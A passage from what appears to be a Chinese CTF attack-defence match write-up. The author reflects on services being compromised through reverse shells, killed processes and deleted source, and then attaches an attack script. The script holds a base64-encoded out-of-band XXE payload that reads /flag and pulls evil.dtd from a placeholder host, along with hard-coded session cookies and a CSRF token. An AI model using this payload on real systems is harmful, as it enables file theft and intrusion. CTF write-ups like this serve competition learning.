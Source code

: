 期间 web1 已经被日穿了, 各种 nc sh 反弹 shell, 甚至还有直接 kill 掉 java 进程和删 jar 文件的, web2 情况也差不多, 估计是反序列化没修完, 或者已经被种了内存马/不死马等等, 遇到过删掉整个网站源码的, 有点离谱, 但在 awd 中好像也挺正常

修到最后索性直接把 web1 web2 所有的漏洞入口点都给删掉, 结果截至比赛结束还是被别人拿 flag, 很奇怪

最大的感受就是如果在最开始的时候就把漏洞一次性修完, 后面就没有那么多事了...

自己在之前的学习过程中很多时间都是站在攻击者的角度来思考某个漏洞该如何利用如何绕过, 但是很少去以一个防守方的视角来认真思考这个漏洞究竟该如何修复如何加固, 算是吃了一个教训

以后这样的比赛估计还有很多, 慢慢积累经验吧

最后附上自己临时写的攻击脚本

```python
import requests
import os
import re
import json
import time

flag_list = []

def get_iplist(filename):
    ip_list = []
    with open(filename, "r") as f:
        for line in f:
            ip_list.append(line.strip('\n'))
    return ip_list

def submit_flag(id, flag):
    url = 'http://47.108.29.107:8000/api/v1/challenges/attempt'
    cookies = {
        'session': '5e202965-c18d-48ac-b733-2bb3c8ca780a',
        'PHPSESSID': '4mbk85f8ta61f95l4nndqjq81c'
    }
    headers = {
        'CSRF-Token': '77963bfcb52a8ea6ebbc81c834cc18685e651ff004c1cf1ca6225a7fbad351a3',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36 Edg/108.0.1462.46',
        'Content-Type': 'application/json',
        'Origin': 'http://47.108.29.107:8000',
        'Referer': 'http://47.108.29.107:8000/challenges',

    }
    data = {
        "challenge_id": id,
        "submission": flag
    }
    print('submitting', id, flag)
    res = requests.post(url, data=json.dumps(data), cookies=cookies, headers=headers)
    print(json.loads(res.text))

def attack_web1(ip):
    global flag_list
    try:
        url = 'http://' + ip + '/xml'
        data = {'xml': 'PCFET0NUWVBFIHRlc3QgWwo8IUVOVElUWSAlIGZpbGUgU1lTVEVNICJmaWxlOi8vL2ZsYWciPgo8IUVOVElUWSAlIHJlbW90ZSBTWVNURU0gImh0dHA6Ly94LngueC54Onl5eXkvZXZpbC5kdGQiPgolcmVtb3RlOyVpbnQ7JXNlbmQ7Cl0='}
        res = requests.post(url,data=data, timeout=3)
        flag = re.findall('(flag\{.*\})', res.text)[0]
        print(ip,flag)
        flag_list.append({'id': 1, 'flag': flag})
    except Exception as e:
        print(e)

```